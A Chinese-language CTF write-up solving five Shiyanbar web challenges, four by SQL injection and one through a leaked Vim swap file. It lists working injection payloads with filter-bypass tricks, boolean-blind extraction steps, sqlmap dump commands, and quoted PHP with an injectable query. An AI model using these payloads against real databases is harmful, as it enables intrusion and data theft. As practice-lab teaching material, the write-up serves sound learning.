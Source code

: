 #ctf.mukeran.cn/writeups/web/1/

本次WriteUp中四道题为SQLi，一道题为源代码分析，这是我第一次做CTF题目并写WriteUp，如不规范敬请谅解。  
因未找到合适的图床，这篇WriteUp里面没有图片，可能以后会补上...

[简单的SQL注入 - 实验吧](http://www.shiyanbar.com/ctf/1875 "前往实验吧")
----
1. `id=1'` 发现报SQL格式错误，可能存在字符型注入
2. `id=1' and '1'='1` 无返回值，可能被关键词过滤，于是直接尝试`id=1'/**/and/**/'1'='1`，发现有返回值(事实上看其他WP发现是过滤了and和一个空格，包括其他的select等)，尝试`id=1'/**/and/**/'1'='2`，发现无返回值。
3. 然后`id=1'/**/union/**/select/**/database()'`，发现当前数据库的名称为`web1` (这里有一个注意的是，经测试`select database()`后面可以紧跟一对`''`，而不能使用`where`，其他`select`需要`where '1'='1`来完成`''`的配对)
4. 然后`id=1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='web1'/**/and/**/'1'='1` 发现报错，根据SQL错误信息，发现可能是table\_schema被过滤了，我们将其替换为table\_table\_schemaschema，即`id=1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_table_schemaschema='web1'/**/and/**/'1'='1` 得到可疑的table--flag
5. 然后`id=1'/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_table_schemaschema='web1'/**/and/**/table_name='flag'/**/where/**/'1'='1` 发现又报错了，这次information\_schema.columns和column\_name被过滤了，然后`id=1'/**/union/**/select/**/column_column_namename/**/from/**/information_information_schema.columnsschema.columns/**/where/**/table_table_schemaschema='web1'/**/and/**/table_name='flag'/**/and/**/'1'='1` 得到可疑的column--flag
6. 最后`id=1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag

[简单的SQL注入2 - 实验吧](http://www.shiyanbar.com/ctf/1908 "前往实验吧")
----
1. 用上面那道题的步骤进行尝试，在第2步时用database()发现被过滤，于是直接`id=1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1` 得到可疑的database--web1
2. 接着用上面那道题的步骤测试，发现第5步报错，应该是删除了过滤table_schema, information_schema.columns, column_name，修改`id=1'/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_schema='web1'/**/and/**/table_name='flag'/**/and/**/'1'='1` 得到可疑column--flag
3. 最后`id=1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag

两道题过滤规则不同


[简单的SQL注入3 - 实验吧](http://www.shiyanbar.com/ctf/1909 "前往实验吧")
----
1. `id=1` 返回Hello!，`id=1'` 报错，存在字符型注入，`id=1' and '1'='1` 返回Hello!，`id=1' and '1'='2` 无返回，可以boolean注入
2. 利用SQL报错获得数据库名`id=1' and (select count(*) from 表名) > 0 and '1'='1`(也可以`> 0 #`用`#`注释掉后面的内容进行尝试，但是这样做的话如果原程序中本来后面还有一些必要的语句，则会失败报错)，得到数据库名web1
3. 用字典爆破的方法爆破flag所在table。先试试flag`id=1' and (select count(*) from information_schema.tables where table_schema='web1') > 0 and '1'='1`，返回Hello!，说明存在表flag
4. 用字典爆破的方法爆破表flag中的列。同样先试flag`id=1' and (select count(flag) from flag) > 0 and '1'='1`，返回Hello!，说明存在列flag，`id=1' and (select count(flag) from flag) > 1 and '1'='1`，无返回，说明就只有一行
5. 那么flag一定是在flag列，唯一的一行里面了，我们枚举爆破一下flag的长度`id=1' and (select length(flag) from flag) > {length} and '1'='1`，得到长度为26
6. 我们用ASCII爆破，用burp或者写一个Python脚本`id=1' and ascii(substr((select flag from flag), {start}, 1))={ascii} and '1'='1`爆破得到flag

后面爆破用burp或者Python，写Python其实也比较简便，后面会补充代码


[这个看起来有点简单! - 实验吧](http://www.shiyanbar.com/ctf/33 "前往实验吧")
----
1. `id=1'`，发现报错，可能存在字符型注入。然后`id=1' and '1'='1`发现还是报错，说明程序中`id={?}`并未加引号，直接尝试`id=1 and 1=1`正常查询，`id=1 and 1=2`无结果，说明可以布尔型注入
2. 尝试`union select`，发现并不行，且网页的输出是按字段输出的，所以`union`查询可能不可行(手动做的话只能用count了)
3. 用sqlmap.py尝试`sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --current-db`可以正常查询到当前数据库"my_db"
4. `sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D "my_db" --tables` 得到table--thiskey
5. `sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D "my_db" -T "thiskey" --dump"` 得到flag


[忘记密码了 - 实验吧](http://www.shiyanbar.com/ctf/1808 "前往实验吧")
----
1. 随便输入之后，点击提交，发现alert了一个step2.php的url
2. 进入step2.php，发现直接显示页面后被跳转回step1.php，我们直接用浏览器`view-source:http://ctf5.shiyanbar.com/10/upload/step2.php` 发现其中一个form将内容提交到了submit.php，并且页面中我们看到有Vim留下来的meta，有可能是因为Vim编辑的swap文件没有被删除
3. 访问submit.php，提示不是管理员，我们先尝试一下这个目录中是否有submit.php的swap文件，访问.submit.php.swp，发现真有，里面部分代码：
```php
if(!empty($token)&&!empty($emailAddress)){
	if(strlen($token)!=10) die('fail');
	if($token!='0') die('fail');
	$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
	$r = mysql_query($sql) or die('db error');
	$r = mysql_fetch_assoc($r);
	$r = $r['num'];
	if($r>0){
		echo $flag;
	}else{
		echo "失败了呀";
	}
}
```
发现这个token的长度是10，根据上面还要求邮箱为管理员邮箱，我们分析step2.php网页源码，发现meta留下管理员邮箱，并且swap文件里面有数据库结构，其中token有default '0'，我们直接尝试token为000000000，发现正确，得到flag